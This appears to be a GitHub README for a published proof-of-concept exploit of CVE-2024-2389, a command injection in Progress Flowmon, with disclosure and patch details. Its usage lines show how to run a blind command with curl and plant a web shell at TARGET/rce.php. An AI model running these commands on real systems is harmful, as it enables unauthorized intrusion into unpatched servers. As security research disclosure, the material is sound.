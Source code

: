 # CVE-2024-2389: Progress Software Flowmon Unauthenticated Command Injection

## Information
**Description:** This exploits an unauthenticated command injection in the Progress Software Flowmon application.  
**Versions Affected:** Tested on v12.03.02  
**Version Fixed:** 12.3.5/11.1.14  
**Researcher:** Dave Yesland (https://x.com/daveysec)  
**Disclosure Link:** https://rhinosecuritylabs.com/  
**NIST CVE Link:** https://nvd.nist.gov/vuln/detail/CVE-2024-2389  
**Vendor Advisory:** https://support.kemptechnologies.com/hc/en-us/articles/24878235038733-CVE-2024-2389-Flowmon-critical-security-vulnerability  

## Proof-of-Concept Exploit
### Description
This exploit a command injection flaw in an unauthenticated PDF generator endpoint affecting PdfGenerator.php.  

### Usage/Exploitation
To run a blind command:  
`python3 CVE-2024-2389 --cmd 'curl a.server' TARGET`

To write a simple webshell:  
`python3 CVE-2024-2389 --web-shell TARGET`  
Then visit TARGET/rce.php  

### Screenshot
![Alt-text that shows up on hover](poc_image.png)